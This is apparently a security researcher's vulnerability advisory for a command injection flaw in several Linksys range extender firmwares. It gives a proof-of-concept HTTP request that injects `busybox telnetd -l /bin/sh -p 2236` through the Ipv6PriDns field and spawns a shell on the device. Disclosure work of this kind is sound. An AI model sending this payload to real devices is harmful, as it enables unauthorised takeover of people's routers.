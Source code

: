 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `ipv6cmd` , `Ipv6PriDns、Ipv6SecDns、Ipv6StaticGateway、LanIpv6Addr、LanPrefixLen、pppoeUser、pppoePass、pppoeIdleTime、pppoeRedialPeriod、Ipv6in4_PrefixLen、LocalIpv6、RemoteIpv4、LanIPv6_Prefix、LanPrefixLen、ipv6to4Relay、ipv6rdRelay、tunrd_PrefixLen、wan_UseLinkLocal、Ipv6StaticIp、Ipv6PrefixLen` is directly passed by the attacker, so we can control the `Ipv6PriDns、Ipv6SecDns、Ipv6StaticGateway、LanIpv6Addr、LanPrefixLen、pppoeUser、pppoePass、pppoeIdleTime、pppoeRedialPeriod、Ipv6in4_PrefixLen、LocalIpv6、RemoteIpv4、LanIPv6_Prefix、LanPrefixLen、ipv6to4Relay、ipv6rdRelay、tunrd_PrefixLen、wan_UseLinkLocal、Ipv6StaticIp、Ipv6PrefixLen` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

`mod_form.so->ipv6cmd`

In `ipv6cmd` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `Ipv6PriDns` as **`busybox telnetd -l /bin/sh -p 2236`** , and the router will excute it,such as:

```http
POST /goform/setIpv6 HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 177
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=ZLiI3MEuHkfEl1nvug1MTWxYivmvElzl
Upgrade-Insecure-Requests: 1

ipv6connType=1&Ipv6PriDns=`busybox telnetd -l /bin/sh -p 2236`&Ipv6SecDns=&manuallyDNS=&EnDhcpPD=&Ipv6StaticIp=&Ipv6PrefixLen=&Ipv6StaticGateway=&wan_UseLinkLocal=&LanPrefixLen=
```



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

